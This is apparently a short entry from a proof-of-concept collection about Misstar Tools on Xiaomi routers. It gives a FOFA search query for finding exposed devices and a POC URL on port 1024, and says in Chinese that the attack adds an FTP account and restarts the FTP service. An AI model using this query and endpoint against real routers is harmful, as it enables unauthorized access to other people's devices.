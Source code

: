 <languages />

FOFA
----

    app="Misstar-Tools-小米路由器"

POC
---

    http://<target>:1024/

新增FTP账户，重启FTP服务